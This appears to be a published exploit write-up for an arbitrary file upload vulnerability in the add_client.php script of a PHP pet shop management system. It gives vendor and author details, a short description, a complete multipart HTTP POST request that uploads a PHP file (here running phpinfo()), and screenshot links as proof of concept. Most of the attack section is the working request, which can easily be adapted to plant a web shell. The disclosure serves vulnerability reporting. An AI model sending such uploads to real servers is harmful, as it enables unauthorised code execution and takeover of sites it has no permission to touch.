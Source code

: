 petshop-management-system  add_client.php any file upload

Exploit Author: webraybtl@webray.com.cn inc

Vendor Homepage: https://www.sourcecodester.com/php/14962/petshop-management-system-using-phppdo-oop-full-source-code-complete.html

Software Link: https://www.sourcecodester.com/php/14962/petshop-management-system-using-phppdo-oop-full-source-code-complete.html

CMSName: petshop-management-system

Tested on: Windows, Apache ,Mysql

Description

The reason for the arbitrary file upload vulnerability is that the website application allows users to upload any type of file without restrictions in the add_client. php code, resulting in arbitrary file uploads.

    Payload used:

    POST /Petshop_Management_System/controllers/add_client.php HTTP/1.1
    Host: 192.168.2.110
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
    Accept: */*
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Connection: close
    Referer: http://192.168.2.110/Petshop_Management_System/
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundarysOcLQ1YbU3iam8cM
    Content-Length: 182
    
    ------WebKitFormBoundarysOcLQ1YbU3iam8cM
    Content-Disposition: form-data; name="image_profile";filename="test.php"
    
    <?php phpinfo();?>
    ------WebKitFormBoundarysOcLQ1YbU3iam8cM--


Proof of Concept

![image](https://github.com/user-attachments/assets/ed3722ad-d1f6-431c-995f-f3cb2e23ba40)
![image](https://github.com/user-attachments/assets/abbd8988-36db-428f-b854-be84523734f9)

![image](https://github.com/user-attachments/assets/57cb8cef-7350-412d-b644-8d70a2088a2f)



